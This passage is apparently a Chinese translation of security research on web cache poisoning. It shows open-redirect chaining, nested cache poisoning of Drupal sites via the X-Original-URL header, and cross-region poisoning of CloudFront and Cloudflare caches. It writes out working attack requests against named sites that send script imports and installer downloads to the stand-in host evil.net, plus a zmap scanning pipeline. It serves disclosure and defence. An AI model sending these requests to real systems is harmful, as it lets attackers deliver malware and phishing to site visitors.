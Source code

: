 再次，一个开放的重定向本身并不令人兴奋，但现在我们终于拥有了一个严肃的利用所有的构建块。

### 持续重定向劫持
我们可以将参数覆盖攻击与打开重定向结合起来，以持久地劫持任何重定向。Pinterest商业网站上的某些页面恰好通过重定向导入JavaScript。以下请求以`X-Original-URL`的值显示的缓存条目中毒，参数为`GET`的值：
```
GET /?destination=https://evil.net\@business.pinterest.com/ HTTP/1.1
Host: business.pinterest.com
X-Original-URL: /foo.js?v=1
```
这劫持了JavaScript导入的目的地，让我可以完全控制business.pinterest.com上是几个静态页面：
```
GET /foo.js?v=1 HTTP/1.1

HTTP/1.1 302 Found
Location: https://evil.net\@unity.com/
```

### 嵌套缓存中毒
其他Drupal站点不那么乐于助人，也不会通过重定向导入任何重要的资源。幸运的是，如果站点使用外部缓存（几乎所有高流量的Drupal站点），我们可以使用内部缓存来中毒外部缓存，并在此过程中将任何响应转换为重定向。这是一个两阶段的攻击。首先，我们使用恶意重定向来中毒内部缓存以替换 `/redir`：
```
GET /?destination=https://evil.net\@store.unity.com/ HTTP/1.1
Host: store.unity.com
X-Original-URL: /redir
```
接下来，我们使用我们的预中毒`/ redir`来中毒外部缓存以替换` /download?v=1 `：
```
GET /download?v=1 HTTP/1.1
Host: store.unity.com
X-Original-URL: /redir
```
最终结果是在unity.com上点击“下载安装程序”会从evil.net下载一些机会性恶意软件。此技术还可用于大量其他攻击，包括将欺骗性条目插入RSS源，使用网络钓鱼页替换登录页，以及通过动态脚本导入存储XSS。

这是一个关于Drupal库存安装的攻击的视频：
[视频链接](https://portswigger.net/cms/videos/5b/fe/e952b9f0eb55-drupaldemo.mp4)

该漏洞已于2018-05-29向Drupal，Symfony和Zend团队披露，并且在您阅读本文时，希望通过协调补丁发布来禁用这些漏洞。

## 跨云中毒
正如您可能已经猜到的，这些漏洞报告中的一些引发了有趣的反应和响应。

使用CVSS对我的提交进行评分的一个分析者给CloudFront缓存中毒报告提供了“high”的访问复杂性，因为攻击者可能需要租用几个VPS才能毒害所有CloudFront的缓存。我坚持认为什么构成“high”复杂性的诱惑，我把这作为一个机会，探讨是否可以在不依赖VPS的情况下进行跨区域攻击。

事实证明，CloudFront有一个有用的缓存地图，可以使用从一系列地理位置发出DNS查找的[免费在线服务](https://www.nexcess.net/resources/tools/global-dns-checker/?h=catalog.data.gov&t=A)轻松识别其IP地址。在舒适的卧室中使特定区域中毒就像使用curl /Burp的主机名覆盖功能将攻击定位到其中一个IP一样简单。

由于Cloudflare有更多的区域缓存，我决定也看看它们。Cloudflare在线发布所有IP地址列表，因此我编写了一个快速脚本，通过每个IP请求waf.party/cgn-cgi/trace并记录我点击的缓存：
```
curl https://www.cloudflare.com/ips-v4 | sudo zmap -p80| zgrab --port 80 --data traceReq | fgrep visit_scheme | jq -c '[.ip , .data.read]' cf80scheme | sed -E 's/\["([0-9.]*)".*colo=([A-Z]+).*/\1 \2/' | awk -F " " '!x[$2]++'
```
这表明，当针对waf.party（在爱尔兰举办）时，我可以从曼彻斯特的家中点击以下缓存：
```
104.28.19.112 LHR    172.64.13.163 EWR    198.41.212.78 AMS
172.64.47.124 DME    172.64.32.99 SIN     108.162.253.199 MSP
172.64.9.230 IAD     198.41.238.27 AKL    162.158.145.197 YVR
```
## 防御
针对缓存中毒的最强大防御是禁用缓存。对于一些人来说，这显然是不切实际的建议，但我怀疑很多网站开始使用Cloudflare等服务进行DDoS保护或简易SSL，并且最终容易受到缓存中毒的影响，因为默认情况下启用了缓存。